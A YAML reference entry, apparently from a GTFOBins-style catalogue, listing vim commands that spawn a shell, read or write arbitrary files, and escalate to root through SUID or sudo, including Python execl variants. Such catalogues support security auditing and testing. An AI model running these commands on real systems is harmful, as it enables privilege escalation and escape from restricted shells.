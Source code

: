 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

